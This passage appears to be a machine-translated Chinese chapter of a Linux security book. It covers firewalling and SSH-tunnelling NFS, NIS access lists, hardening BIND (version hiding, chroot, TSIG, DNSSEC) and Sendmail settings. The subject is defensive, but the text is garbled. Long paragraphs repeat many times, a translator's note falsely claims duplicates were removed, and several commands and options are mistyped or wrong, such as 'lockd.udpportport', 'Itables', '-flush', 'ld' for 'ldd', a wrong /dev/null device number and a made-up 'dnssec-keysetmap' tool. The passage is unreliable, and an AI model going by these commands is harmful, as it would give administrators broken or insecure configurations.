这将将守护进程设置为在 `33000` `TCP` 和 `UDP` 端口上监听。如果支持是静态编译进内核的，你必须在在启动时传递以下参数：

```bash
lockd.udpportport=33000 lockd.tcpportport=33000
```

现在这些服务已运行在静态端口上，你可以使用 `Itables` 来限制访问。在接下来的规则集中，我们假设 NFS 是机器上运行的唯一服务，并将限制对外部 `IP` 地址列表的访问（你可能想参考第 5 章中的讨论）。

`IPT = "/usr/sbin/iptables"`

```bash
## 首先清除现有的规则。
$IPT -flush
$IPT -t nat -flush
$IPT -t mangle -flush
$IPT -X
```

```bash
### 允许回环流量
$IPT -A INPUT -i lo -j ACCEPT
$IPT -A OUTPUT -o lo -j ACCEPT
```

```bash
## 默认链策略
$IPT -P INPUT DROP
$IPT -P OUTPUT DROP
$IPT -P FORWARD DROP
```

```bash
$IPT -A INPUT -m state \
-state ESTABLISHED,RELATED -j ACCEPT
```

```bash
$IPT -A OUTPUT -m state \
-state NEW,ESTABLISHED,RELATED -j ACCEPT
```

允许对 `## /usr/local/etc/nfsexports.hosts` 中列出的每个主机进行访问：

```bash
for host in `cat /usr/local/etc/nfsexports /usr/local/etc/nfsexports.hosts`; do
$IPT -I INPUT -s $host -p tcp --dport 111 -j ACCEPT
$IPT -I INPUT -s $host -p udp --dport 111 -j ACCEPT
$IPT -I INPUT -s $host -p udp --dport 2049 -j ACCEPT
$IPT -I INPUT -s $host -p tcp --dport 32800 -j ACCEPT
$IPT -I INPUT -s $host -p udp --dport 32900 -j ACCEPT
$IPT -I INPUT -s $host -p udp --dport 30000 -j ACCEPT
$IPT -I INPUT -s $host -p udp --dport 33100 -j ACCEPT
done
```

当然，你需要更改最后四条规则，以反映你选择为所需的 `RPC` 服务分配的端口。这只是一个骨架规则集，你可能对其进行修改（例如，启用 `SSH` 或其他服务，或设置内核 `/proc` 设置）。

# 通过 SSH 隧道传输 NFS

即使有了这些预防措施，数据包嗅探的威胁——“无文件安全”仍然存在（这导致 NFS 非正式地被称为“无文件安全”）。如果你读过本章稍早关于 `SSH` 隧道的讨论，你可能已经考虑过它加密 NFS 流量的潜力。这种配置非常复杂，但可以实现。第一步是修改 NFS 服务器上的 `/etc/exports`，以便你将 NFS 作为“远程”`IP` 地址进行隧道：

```bash
/etc/exports    127.0.0.1(rw)
```

接下来，使用 `SSH` 转发 NFS 和挂载端口。NFS 使用 `2049/udp`，正如之前详细说明的，我们假设端口已配置为固定端口号启动：在示例中，转发命令为：

```bash
ssh root@192.168.0.5 -L 200:localhost:2049
ssh root@192.168.0.5 -L 210:localhost:33000
ssh root@192.168.0.5 -L 220:localhost:3301
```

通常，这些命令会让你进入一个交互式 `shell`；但由于你不需要远程 `shell`，你可以要求 `SSH` 在远程主机上非活动地执行。这将返回到本地界面。由于你不需要远程 `shell`，你可以要求 `SSH` 在远程主机上非活动地执行。...

```bash
/etc/exports    127.0.0.1(rw)
```

接下来，使用 `SSH` 转发 NFS 和挂载端口。NFS 使用 `2049/udp`，正如之前详细说明的，我们假设端口已配置为固定端口号启动：在示例中，转发命令为：

```bash
ssh root@192.168.0.5 -L 200:localhost:2049
ssh root@192.168.0.5 -L 210:localhost:33000
ssh root@192.168.0.5 -L 220:localhost:3301
```

通常，这些命令会让你进入一个交互式 `shell`；但由于你不需要远程 `shell`，你可以要求 `SSH` 在远程主机上非活动地执行。这将返回到本地界面。

```bash
/etc/exports    127.0.0.1(rw)
```


接下来，使用 `SSH` 转发 `NFS` 和挂载端口。`NFS` 使用 `2049/udp`，正如之前详细说明的，我们假设端口已配置为固定端口号启动：在示例中，转发命令为：

```bash
ssh root@192.168.0.5 -L 200:localhost:2049
ssh root@192.168.0.5 -L 210:localhost:33000
ssh root@192.168.0.5 -L 220:localhost:3301
```

（注：由于原文文本中存在大量重复的段落，译文已根据指令要求去重处理，确保逻辑通顺且不重复输出。）

```
255.0.0.0 127.0.0.0 # permit access for the
# 127.0.0.0 - 127.255.255 range (loopback addresses)
host 192.168.5.5 # permit access for the host 192.168.5.5,
# using the host keyword
255.255.255.255 10.1.2.3 # permit access for the single
host 10.1.2.3
255.255.255.0 192.168.1.0 # permit access for hosts in the
# range 192.168.1.0 - 192.168.1.255
```

默认情况下，此文件配置为允许任何主机作为 `NIS` 客户端访问服务器——你几乎肯定想要更改此。`NIS` 服务器不应从局域网（`LAN`）外部访问。

## 10.4 DNS 和 BIND

与 `Apache` 和万维网一样，由 `ISC`（互联网系统联盟）提供的 `BIND` 名称服务器已成为 `DNS` 的代名词。在本节中，我们将介绍 `BIND` 配置和一般的 `DNS` 概念。根据你的网络规模，你可能运行一个或两个名称服务器，可能完全不运行。对于小型网络，依靠 `ISP` 或第三方托管公司来管理你的 `DNS` 记录是常见的，但随着网络的增长，这种安排的缺乏灵活性很快就会显现出来。一种流行的折中方案是托管自己的主 `DNS` 服务器，同时使用第三方提供次级 `DNS`。这让你拥有了维护自己 `DNS` 的权力和灵活性，而次级服务器在本地网络或机器故障时提供备份。如果你只有一个互联网连接，运行次级 `DNS` 服务器通常毫无意义，因为如果主服务器无法访问（例如由于停机），次级也将无法访问。如果你找不到人来担任次级 `DNS`，只需运行一个主服务器即可。

遗憾的是，`BIND` 拥有一很长的漏洞历史 [BIND]，在 9.2.2 之前的版本中，极少数版本被认为是没有错误的（8.4.3 和 8.4.4 是两个例外）；因此，保持 `BIND` 新版本的更新特别为重要（我们稍后讨论的一些功能对于 `BIND 9` 来说是新的）。要查看详细说明 `BIND` 版本已知漏洞的表格，请访问 `http://www.isc.org/sw/bind/bind-security.php`。

## 通用注意事项

我们不会列举每一个已知的 `BIND` 漏洞，而是专注于与 `BIND` 相关的通用预防措施以及名称服务器的组织方式。这种方法具有更长远的利益，因为许多漏洞出现又消失得很快，在发现后的几天内就会被修复。

## BIND 版本

关于 4.9 之后的 `BIND` 版本，一个少为人知的事实是，如果使用命令进行查询，它们会乐意地向远程用户提供其版本号：

```
dig @example.com txt chaos version.bind
```

自然，这是不不受愿的，因为攻击者可能利用它来判断你的名称服务器是否容易受到多年来流传的许多漏洞之一的影响。你可以通过两种方法应对这个问题：将 `BIND` 版本更改为其他，或者限制谁可以请求版本信息。

第一种方法相对简单；只需涉及通过编辑 `/etc/named.conf` 来添加以下代码块：

```
options {
    version "unknown";
}
```

如果你的 `BIND` 配置文件中已经包含 `options` 块，只需向其中添加 `version` 选项。黑客通常使用自动化工具扫描整个网络以请求名称服务器的 `BIND` 版本，然后浏览列表寻找可被利用的服务器。因此，你不希望出现一个会吸引黑客注意的版本字符串：类似“unknown”或（空字符串）将是合适的；嘲讽性的如“nice try, lamer”（做得不错，菜鸟）只会挑起潜在的攻击者。

第二种方法利用了 `BIND` 较新的概念——视图（views）。视图允许你根据用户的源 `IP` 地址，为不同的用户提供不同的区域信息：

```
view "chaos" chaos {
    match-clients { };
    allow-query { none; };
    zone ". {
        type hint;
        file "/dev/null";
    };
}
```

需要注意的是，如果你使用 `view` 命令来限制对 `chaos` 查询的访问，你也必须将其用于区域（`zone`）查询。这种实现非常简单，涉及将所有现有区域选项封装在 `view "something"` 的 `{ ... };` 之中。你还需要通过 `match-clients` 选项配置此视图适用于哪些用户。如果你打算只设置一个视图，将其设置为 `any`。

```
view "default" in {
match-clients { any };
```

```
zone "example.com" IN {
type master;
file "zone.example.com";
allow-update { none };
}
```

```
zone "example.org" IN {
type master;
file "zone.example.org";
allow-update { none };
}
```

## 资源限制

与 `Apache` 一样，`BIND` 支持对对其资源使用的各个方面进行限制。此类选项放在 `options { ... };` 块中，最重要的有：

- `datasize <size>`: 这控制数据的最大大小。
- `stacksize <size>`: 栈的最大大小。
- `coresize <size>`: 核心文件（core files）的最大大小。
- `files <number>`: 最大打开数。

例如：

```
options {
  datasize 50m;
  stacksize 2m;
  coresize 100m;
  files 500;
}
```

## 区域传输

在大多数情况下，`BIND` 允许入站和出站传输；然而，你应该限制可以进行传输的机器。例如，我们使用 `allow-transfer` 选项：

```
options {
  allow-transfer { 192.168.1.1; 192.168.1.2 };
}
```

## 动态更新

`BIND 8` 新支持了动态更新（见 `RFC 2136`）。动态更新允许远程用户（通过 `nsupdate` 命令）对其拥有权威的区域添加和删除记录。这种灵活性对于 `DHCP` 等服务非常有用，但也引发了攻击。

## 服务安全

动态更新由 `allow-update` 选项控制，该选项可以放在 `zone "name" { }` 块中（仅适用于该区域），或放在 `options { }` 块中（应用于全局）。该选项接受最重要的值是一个或多个 `IP` 地址（用分号分隔）或关键字 `none`。例如：

```
zone "example.com" IN {
  type master;
  file "zone.example.com";
  allow-update none;
};
```

或者

```
options {
  allow-update { 192.168.4.4; 192.168.9.3 };
}
```

请记住，大多数 `DNS` 流量通过 `UDP` 传输，因此源地址伪造很容易实现。基于 `IP` 的保护是不安全的，稍后你会看到一些替代方案。

## 以非特权用户运行 BIND

传统上，`BIND` 一直以 `root` 身份运行，这与其长期漏洞历史相结合，导致了许多系统被破解。从 8.1.2 版本开始，服务器现在可以在非特权账户运行；你仍然需要以 `root` 启动守护进程，但在绑定到端口 `53` 后，它会立即放弃所有权限并采用指定的 `UID`。可以使用 `-u` 命令行选项指定要使用的用户名：

```
# named -u named
```

你应该创建一个专门运行 `named` 的用户，而不是使用诸如 `nobody` 这样的账户（某些进程可能以该账户运行，一旦 `bind` 被攻破也会受到影响）。

由于 `BIND` 在放弃 `root` 权限之前会读取 `/etc/named.conf` 文件，因此你不需要更改此文件的所有者或权限；但是，你需要更改 `/var/named` 以及其中包含的区域文件。要么将所有者更改为 `named` 用户，要么将组所有者设置为 `named`，并使文件对组可读。

## 428 Linux 网络安全


```bash
# chown -R named /var/named
# chmod 700 /var/named
# chmod 600 /var/named/*
```

`BIND` 还会将其 `pid` 写入 `/var/run/named/named.pid`。请确保 `/var/run/named` 属于 `named` 用户并具有 `700` 权限。

## Chroot 环境 BIND

由于有了以非特权用户身份根运行 `BIND` 的选项，对其进行 `chroot` 也变得可行了（你可能记得对以 `root` 身份运行的进程进行 `chroot` 基本上是没有意义的）。`chroot` 背后的概念在第 8 章中讨论过，而且在本章前面的部分也看到过使用 `chroot` 的实际示例，因此这里我们将简要介绍。

首先，创建必要的目录结构；与之前一样，我们假设使用 `/chroot` 作为存放关禁守护进程的目录：

```bash
# mkdir /chroot/named/
# cd /chroot/named
# mkdir -p dev etc lib usr/sbin var/named var/run var/log usr share
```

复制你现有的 `named` 配置文件，并创建 `/chroot/named/dev/null` 设备：

```bash
# cp /etc/named.conf /chroot/named/etc
# mknod /chroot/named/dev/null c 3 1
```

检查 `named` 二进制文件所需的任何 `DLL`：

```bash
# ld /usr/sbin/named
libwres.so.1 => /usr/lib/libwres.so.1 (0x4001b000)
libbdns.so.5 => /usr/lib/libbdns.so.5 (0x4002a000)
libcrypto.so.2 => /usr/lib/libcrypto.so.2 (0x4011a000)
libsscfg.so.0 => /usr/lib/libsscfg.so.0 (0x401d8000)
libsscc.so.0 => /usr/lib/libsscc.so.0 (0x40e17000)
libisoc.so.4 => /usr/lib/libisoc.so.4 (0x401e0000)
libnsl.so.1 => /usr/lib/libnsl.so.1 (0x4021f000)
libthread.so.0 => /usr/lib/lib6686/libthread.so.0 (0x40235000)
libc.so.6 => /usr/lib/lib6686/libc.so.6 (0x40200000)
libdl1.so.2 => /lib/libdl1.so.2 (0x40249000)
/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

你需要将这些库中的每一个都拷贝到你的 `chroot` 监狱中（具体使用的库取决于你的 `BIND` 版本）。

编辑系统的 `syslog` 启动脚本，并添加选项 `-a /var/log/named.log`；同样，你在本章之前对 `Apache` 的讨论中已经见过如何做这一点。

将 `BIND` 二进制文件（通常位于 `/usr/sbin`）拷贝到你的 `chroot` 监狱：

```bash
# cp /usr/sbin/named* /chroot/named/usr/sbin/
```

从 `/usr/share/zoneinfo` 拷贝相应的 `zoneinfo` 文件，并为其创建一个符号链接到 `/chroot/named/etc/localtime`：

```bash
# cp /usr/share/zoneinfo/GMT /chroot/named/usr/share/zoneinfo
# ln -s /chroot/named/usr/share/zoneinfo/GMT /chroot/named/etc/localtime
```

`BIND` 稍微特殊之处在于，守护进程本身就支持 `chroot` 调用；我们不是通过命令 `/sbin/chroot /chroot/named/usr/sbin/named` 启动关禁的 `named`，而是简单地说：

```bash
# /chroot/named/usr/sbin/named -t /chroot/named
```

（这避免了将 `/etc/passwd` 和 `/etc/shadow` 拷贝到监狱中：`named` 在调用 `chroot()` 之前会读取这些文件。如果你从 `init` 脚本（例如 `/etc/rc.d/init/named`）启动 `named`，则需要编辑 `start()` 函数以以这种方式启动 `named`。实现此点的一种简单方法是在脚本顶部定义 `OPTIONS` 变量：

```bash
OPTIONS = "-u named -t /chroot/named"
```

## 事务签名 (TSIG)

`BIND` 的弱点之一是授权是基于主机的：例如，作为辅助 `DNS` 服务器，我们指定了从哪些主机 `IP` 地址更新我们的记录，尽管作为主服务器，我们再次使用它来配置可能请求区域传输的机器。由于此类流量通常通过 `UDP` 传输（如果消息对于 `UDP` 来说太长，则回退到 `TCP`）——这是一种无连接协议——因此源地址伪造变得轻而易举。当目标是主名称服务器时，这种攻击允许攻击者查看你的整个区域记录；更危险的是，当目标是辅助名称服务器时，攻击者可以强制服务器用他自己的版本更新区域记录。通过实施 `DoS` 攻击使主名称服务器无法访问，你域名的所有 `DNS` 查询将由被污染的辅助服务器解析。这种攻击允许破解者尝试利用任何其他服务，或将你的用户重定向到他自己的站点。

从 8.2 版本开始，`BIND` 引入了事务签名 (`TSIG`) 概念作为验证 `DNS` 通信的方法。`TSIG` 在 `DNS` 消息头部添加加密签名（注意消息本身没有加密），这提供了消息负载未被更改以及发送者确实是其声称身份的保证。使用了 128 位 `MD5` 哈希算法。`TSIG` 头部还包含签名的时间；接收者仅配置为接受时间窗口内的消息，减少了重放攻击的可能性。尽管理论上 `TSIG` 可以适用于客户端，但在实践中它限于主从（以及偶尔的三级）`DNS` 服务器之间的查询，我们将采取这种安排。

### 密钥生成

启用 `TSIG` 的第一阶段是在主辅助服务器上生成密钥。`RFC 2845` 详细说明了 `TSIG` 协议，建议密钥根据其适用的两个主机命名；例如，如果我们的主名称服务器是 `ns1.example.com`，辅助的是 `ns2`，合适的名称可能是 `ns1-ns2.example.com`、`ns1_ns2.com` 或其他变体。

在 `BIND 9` 中，使用 `dnssec-keygen` 工具按以下语法生成密钥：

```bash
dnssec-keygen -a <algorithm> -b <key size> -n HOST <key name>
```

`-a` 指定使用的算法（通常是 `HMAC-MD5`），`-b` 指定密钥长度（`RFC 2845` 建议为 128 位）。我们将 `HOST` 参数传递给 `-n` 以表示我们创建一个主机密钥，然后给出要使用的密钥名称。在示例中，命令为：

```bash
dnssec-keygen -a HMAC-MD5 -b 128 -n HOST ns1-ns2.example.com
```

（注意密钥末尾的点。）命令给出了生成的密钥文件名——两者已写入当前工作目录：

### 服务安全

```bash
# ls -l ns1-ns2.example.com*
-rw------- 1 root 81 Aug 27 13:56
ns1-ns2.example.com.private
-rw-r--r-- 1 root 63 Aug 27 13:56
ns1-ns2.example.com.key

# cat ns1-ns2.example.com.private
Private-key-format: v1.2
Algorithm: HMAC-MD5
Key: [key]

# cat ns1-ns2.example.com.key
ns1-ns2.example.com IN KEY 512 3 [key]
```

### 写入 /etc/named.conf

下一步是将此密钥插入两个名称服务器的配置文件（通常是 `/etc/named.conf`）中。密钥的语法如下：

```bash
key ns1-ns2.example.com {
  algorithm hmac-md5;
  secret "[key]";
}
```

确保替换你的密钥和密钥名称。由于这些密钥的敏感性（如果攻击者读取它们就可以破坏 `TSIG` 提供的完整性），它们应该只对 `root` 可。通常的方法是 `chmod 600 named.conf`，但如果这样做（可能其他用户需要访问此文件），你可以指定另一个权限更严格的文件包含在你的 `named.conf` 文件中：

```bash
include "/etc/dns.ns1-ns2.example.com.keys";
```


这种方法无法阻止具有 `named.conf` 写权限的恶意用户删除此行并指定备密钥文件；但它可以防止他查看原始密钥。

### 告诉 BIND 何时使用密钥

主机上可以配置多个密钥（为每个想要使用 TSIG 的机器配置一个），并且 BIND 需要被告知哪个主机使用哪个密钥。在我们的示例中，我们在主从之间的通信中使用 TSIG；因此，需要告诉主服务器与辅助服务器通信时使用此密钥，告诉辅助服务器与主服务器通信时使用该密钥。我们假设示例中 `ns1.example.com` 解析到 `10.0.10.1`，`ns2.example.com` 解析到 `10.0.10.2`。

在主服务器 (`ns1.example.com`) 上，向 `/etc/named.conf` 添加以下代码：

```bash
server 10.0.10.2 {
  keys {
    "/etc/dns.ns1-ns2.example.com.keys";
  };
}
```

在辅助服务器上，添加内容：

```bash
server 10.0.10.1 {
  keys {
    "/etc/dns.ns1-ns2.example.com.keys";
  };
}
```

## DNS 安全扩展 (DNSSEC)

由于 TSIG 需要为参与安全事务的每个名称服务器的配置文件都添加密钥，这在大规模上很快就会变得不实际（特别是因为你很少有权限修改他人的名称服务器）。此外，如果入侵者访问了你的名称服务器，他就获得了你的 TSIG 密钥，从而能够轻松地伪造发送给其他名称服务器的消息。

DNS 安全扩展 (DNSSEC) 是一套提议的 DNS 协议扩展，它使用 PKC 和数字签名来保护服务器与客户端（或服务器与服务器）之间的事务。IETF 提出的该标准详情在 `RFC 2535` 中概述。

# 服务安全 433

DNSSEC 并不是一个新概念，事实上，它已经存在多年了；但采用速度缓慢，部分原因是由于实现它所需的大量精力。然而，2004年7月提交了该技术的改进设计方案，经过广泛的测试，DNSSEC 似乎终于准备好进入主流市场。

# KEY、SIG 和 NXT 记录

你可能记得 PKC 同时使用公钥和私钥：公钥应该自由发布，以便其他人在发送消息时可以使用，但私钥必须不惜一切地保密。在 DNSSEC 中，公钥作为一种新类型的记录集成到你控制的每个区域中（`KEY` 记录），而私钥则以文件的形式在服务器上维护，仅名称服务器（当然，还有根服务器）读取。

### 针对私钥

`KEY` 记录与区域相关，但如果客户端发出的一个你没有相关信息的请求（因为没有可用的 `KEY`），会发生什么？简单地提供未签名的响应是不安全的，因为它可能被用于重放攻击。负向响应的签名问题通过引入 `NSEC` 记录来解决，该记录作为“兜底记录”，用于名称服务器无法回答的查询。

# 密钥完整性

你如何知道用于签名接收的消息的密钥是合法的？如果远程名称服务器被破解，攻击者将密钥更改为他们创建的一个怎么办？DNSSEC 使用认证系统，类似于 SSL 的系统，它涉及一个独立的第三方对你的密钥进行签名（在通过其他其他方法验证你是合法的域名所有者之后）。如果密钥被更改，此数字证书将会丢失。

与 SSL（允许任何第三方组织签署证书）不同，DNSSEC 规定该机构必须是该域名的父区域。例如，对于 `example.com`，我们会向 `.com` TLD 的管理员申请证书；而他们又会向根区域申请认证，因为根区域的公钥是广为人知的，对其进行任何更改都很容易被发现。

遗憾的是，DNSSEC 尚未得到广泛支持；那么如果你的父区域没有自己的密钥来签署你的密钥，会发生什么？目前，你不得不简单地不对对密钥进行签名；但是，你仍然可以使用：

```bash
# dnssec-keysetmap -t <TTL> -s <start date> -e \
<expiry date> public_key
```

`-t` 选项指定记录请求的 `TTL`，`-s` 请求 `SIG` 记录开始生效的日期，`-e` 请求你希望 `SIG` 记录过期的日期。这两个日期可以用 `YYYYMMDDHHMMSS` 格式指定，也可以相对于当前时间的偏移量（以秒为单位），并在加上加号。这两个选项的默认值分别是“现在”和“30天后”。`TTL` 值的默认值为 `3600` 秒。

如果这些默认值对你满意，可以省略这些选项，你只需要公钥的名称：

```bash
# dnssec-makekeyset Example.com.+001+0314.key
```

生成的数据随后可以发送给父区域管理员进行检查和批准。如果一切正常，他们将签名你的密钥（使用 `dnssec-signkey` 工具），并将其作为文件 `example.com.signed` 返回。

# 签名区域

现在你的密钥已由第三方签名，下一步是通过在适当文件的末尾添加以下行，将其集成到相关的区域文件中（在这种情况下，文件名可能名为 `zone.example.com`）：

```bash
$ INCLUDE Example.com.+001+0314.key
```

完成此操作后，你将创建一个区域文件的签名版本：

```bash
# dnssec-signzone -o zone.example.com example.com
```

* `-o` 选项指定要签名的区域文件名称；后面紧跟应写入签名区域数据的文件的基名称（名称末尾将附加 `.signed`）。在例例中，此结果文件是 `example.com.signed`。

最后，编辑 `/etc/named.conf` 并更改区域的文件选项，使其指向新的已签名文件：

```
zone "example.com" IN {
    type master;
    file "example.com.signed";
    allow-update { none };
}
```

向 `named` 发送 `SIGHUP` 信号强制其重新加载配置文件。新的区域文件现在已就绪。

# 分离功能名称服务器

大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 DMZ 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 Linux 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。

这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

### 权威和解析名称服务器

大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 DMZ 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 Linux 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

### 双功能名称服务器

大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 DMZ 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 Linux 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

# 服务安全 436


大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 DMZ 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 Linux 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

### 权威和解析名称服务器


大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 `DMZ` 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 `Linux` 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

## 双功能名称服务器

大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 `DMZ` 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 `Linux` 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

# 服务安全 437


大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 `DMZ` 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 `Linux` 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

## 权威和解析名称服务器

大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 `DMZ` 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 `Linux` 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

## 双功能名称服务器

大多数名称服务器实际上承担两个不同的角色：为本地客户端解析主机，以及作为远程客户端在你控制的域上的权威。例如，考虑一家拥有 `example.com` 域的中型公司，为了灵活性，它将其托管位于 `DMZ` 内部的名称服务器上。互联网上需要解析此域的其他名称服务器会联系该服务器，由它作为权威。本地网络上的客户端也被配置为（对于 `Linux` 客户端，通过 `/etc/resolv.conf`）使用此名称服务器解析第三方主机；在这里，名称服务器充当客户端，将请求发送到互联网上的其他名称服务器。这种双重功能使得有效保护名称服务器变得复杂：如果服务器仅是其中一种，你就可以对其实施更严格的规则。解决方案是将这两个不同的功能分离开。

如果 `Andrew` 或 `Natalie` 中任一人没有登录运行其各自 `MTA` 的机器，情况将变得更加复杂。在这种情况下，`MUA` 必须通过网络进行通信，这就是 `SMTP`、`POP3` 和 `IMAP` 派上用场的地方。为了发送电子邮件，`Andrew` 在他的邮件客户端（`MUA`）中配置 `MTA` 的地址和端口（例如 `mail.example.com:25`），然后使用 `SMTP` 将邮件发送到 `MTA`。当 `Natalie` 想要获取她的邮件时，她使用本地计算机上的邮件客户端，该客户端已配置为使用 `POP3` 或 `IMAP` 从邮件服务器获取邮件。

如你所见，两个用户通过电子邮件进行通信的过程可能是复杂的；在本节的剩余部分，我们将介绍与这些每个方面相关的安全问题。

# Sendmail

`Sendmail` 是互联网上使用最广泛的 `MTA`，约占了所有邮件服务器的 40%，且大多数 `Linux` 发行版都默认使用它。然而，它在安全性方面的声誉并不好。部分原因在于 `Sendmail` 的历史久远：它始于一个安全性相对不重要的时代（尽管公平地说，最近已经付出了大量努力来提高其安全性），多年来它已成长为一个庞大且复杂的程序。后一个原因使其难以配置，从而增加了引入安全漏洞的概率。另一个危险之处是 `Sendmail` 需要以 `root` 身份运行，这使得任何漏洞都可能非常严重；这也使得在 `chroot` 监狱中运行 `Sendmail` 变得困难（因为 `root` 可以很容易逃离此类限制）。

`Sendmail` 的两个流行替代方案是 `Qmail` 和 `Postfix`。它们都快速、轻量且易于配置；并且从设计之初就考虑了安全性。我们建议使用这些作为 `Sendmail` 的替代品 [Pomeranz]，这两个者将在在本节稍后的部分介绍。

## 由于其流行性

`Sendmail` 的主配置文件通常是 `/etc/sendmail.cf` 或 `/etc/mail/sendmail.cf`。由于其格式相当晦涩，编辑此文件可能很困难；官方的配置方法是编辑 `Sendmail` 宏文件，`sendmail.cf` 就是由这些宏创建的。在编辑宏后，运行以下命令将自动它们编译成 `sendmail.cf` 文件：

```
# m4 /etc/mail/sendmail.mc > /etc/sendmail.cf
```

## 修改横幅（Banner）

显而易见的第一个步骤是配置连接到 `Sendmail` 守护进程的用户显示的横幅：

```
# telnet localhost 25
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^']
220 example.com SMTPA Sendmail 8.11.6/8.11.6, Mon, 30 Aug 2004
12:10:56 -0700
```

这可能比你想提供的要多，但可以通过 `sendmail.cf` 中的 `SmtpGreetingMessage` 选项进行修改。`Sendmail` 的默认设置（输出与上一个示例类似）是：

```
0 SmtpGreetingMessage=$j Sendmail $v/$Z; $b
```

其中 `$j` 是主机名，`$v` 和 `$z` 是版本号，`$b` 是当前的时间日期。更合适的配置是：

```
0 SmtpGreetingMessage=$j $b
```

向用户展示主机名和日期，但没有指示运行的守护进程的名称或版本。如果你喜欢直接编辑宏文件而不是直接 `sendmail.cf`，请查找以下行：

```
define('confSMTMP_LOGIN_MSG', '$j Sendmail $v/$Z; $b')
```

`sendmail.mc`（如果不存在，请添加它）。遗憾的是，事实证明大多数 `Sendmail` 版本都会乐意地向任何发出帮助命令的人显示其版本号；如果你真的想隐藏守护进程的版本，你得深挖 `Sendmail` 的源代码。

## 防御 DoS 攻击

对 `MTA` 进行 `DoS` 攻击是对你怀有敌意的黑客来说是一种流行且有效的攻击；不幸的是，`Sendmail` 提供了几个选项可以帮助应对威胁。它们可以通过在 `sendmail.mc` 中包含以下行来定义：

```
define(`confCONNECTION_RATE_THROTTLE`, '3')dnl: 每秒允许的最大连接数。如果超过此速率，额外的连接将进入队列（而不是被拒绝）。默认情况下没有限制。
```

```
define(`confMAX_DAEMON_CHILDREN`, '10')dnl: 守护进程可以产生的最大子进程数。没有默认限制，如果达到最大值，后续连接将进入队列。
```

```
define(`confMIN_FREE_BLOCKS`, '100')dnl: 如果磁盘空间低于块数，服务器将不再接受新消息。默认值是 100。
```

```
define(`confMAX_HEADERS_LENGTH`, '1024')dnl: 传入消息可接受的最大头部大小。
```

```
